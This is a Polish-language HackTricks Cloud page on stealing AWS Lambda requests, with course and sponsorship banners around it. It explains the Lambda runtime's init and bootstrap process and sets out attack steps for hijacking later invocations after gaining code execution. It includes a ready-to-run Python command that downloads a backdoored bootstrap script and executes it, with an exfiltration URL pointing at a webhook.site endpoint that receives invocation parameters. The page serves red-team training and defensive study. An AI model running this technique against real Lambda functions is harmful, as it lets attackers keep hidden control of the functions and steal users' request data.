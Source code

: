 # AWS - Kradzież Żądań Lambda

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## Przepływ Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** to proces poza kontenerem, który **wysyła** **wywołania** do procesu **init**.
2. Proces init nasłuchuje na porcie **9001**, udostępniając kilka interesujących punktów końcowych:
* **`/2018-06-01/runtime/invocation/next`** – pobierz następne zdarzenie wywołania
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – zwróć odpowiedź handlera dla wywołania
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – zwróć błąd wykonania
3. **bootstrap.py** ma pętlę, która pobiera wywołania z procesu init i wywołuje kod użytkownika, aby je obsłużyć (**`/next`**).
4. Na koniec **bootstrap.py** wysyła do init **odpowiedź**

Zauważ, że bootstrap ładuje kod użytkownika jako moduł, więc wszelkie wykonania kodu przez kod użytkownika odbywają się w tym procesie.

## Kradzież Żądań Lambda

Celem tego ataku jest sprawienie, aby kod użytkownika wykonał złośliwy proces **`bootstrap.py`** wewnątrz procesu **`bootstrap.py`**, który obsługuje podatne żądanie. W ten sposób złośliwy proces **bootstrap** zacznie **rozmawiać z procesem init**, aby obsługiwać żądania, podczas gdy **legit** bootstrap jest **uwięziony**, uruchamiając złośliwy, więc nie będzie prosił o żądania do procesu init.

To proste zadanie do osiągnięcia, ponieważ kod użytkownika jest wykonywany przez legitny proces **`bootstrap.py`**. Tak więc atakujący mógłby:

* **Wysłać fałszywy wynik bieżącego wywołania do procesu init**, aby init myślał, że proces bootstrap czeka na więcej wywołań.
* Żądanie musi być wysłane do **`/${invoke-id}/response`**
* invoke-id można uzyskać ze stosu legitnego procesu **`bootstrap.py`** za pomocą modułu [**inspect**](https://docs.python.org/3/library/inspect.html) w Pythonie (jak [proponowano tutaj](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) lub po prostu ponownie żądając go do **`/2018-06-01/runtime/invocation/next`** (jak [proponowano tutaj](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Wykonać złośliwy **`boostrap.py`**, który obsłuży następne wywołania
* Dla celów ukrycia można wysłać parametry wywołań lambda do kontrolowanego przez atakującego C2, a następnie obsługiwać żądania jak zwykle.
* Do tego ataku wystarczy pobrać oryginalny kod **`bootstrap.py`** z systemu lub [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), dodać złośliwy kod i uruchomić go z bieżącego wywołania lambda.

### Kroki Ataku

1. Znajdź podatność **RCE**.
2. Wygeneruj **złośliwy** **bootstrap** (np. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Wykonaj** złośliwy bootstrap.

Możesz łatwo wykonać te działania, uruchamiając:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Ucz się i ćwicz AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
